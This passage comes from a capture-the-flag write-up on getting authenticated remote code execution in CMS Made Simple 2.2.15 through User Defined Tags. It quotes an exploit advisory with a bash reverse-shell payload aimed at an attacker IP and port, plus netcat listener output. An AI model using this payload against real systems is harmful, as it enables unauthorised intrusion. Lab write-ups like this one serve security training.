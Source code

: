 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/My-CMSMS/images/a16.png)

I'm in!

Since I'm authenticated, those RCE(Remote Code Execution) exploits that we previously found via `searchsploit` would works!

Let's use the `CMS Made Simple 2.2.15 - RCE (Authenticated)` one:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/My-CMSMS/images/a17.png)

**49345.txt:**
```
Vulnerability is present at "editusertag.php" at line #93 where the user input is in eval() PHP function.

// Vulnerable eval() code

if (eval('function testfunction'.rand().'() {'.$code."\n}") === FALSE) {

Reproduction Steps:

1. Login as administrator user and navigate to Extensions->User Defined Tags

2. Add code with the payload of:
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.56.1/4444 0>&1'");

3. Click on the newly created User Defined Tag and use the Run function

RCE will be achieved:

astoykov@Lubuntu:~$ nc -kvlp 4444
nc: getnameinfo: Temporary failure in name resolution
Connection received on 192.168.56.132 53690
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

We can follow it's step to gain an initial shell:

- Go to "Extensions" -> "User Defined Tags", and add code with Bash reverse shell:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/My-CMSMS/images/a18.png)

- Click on the newly created "User Defined Tag":

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/My-CMSMS/images/a19.png)

- Setup a `nc` listener and use the "Run" function:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/My-CMSMS/images/a20.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/My-CMSMS/images/a21.png)
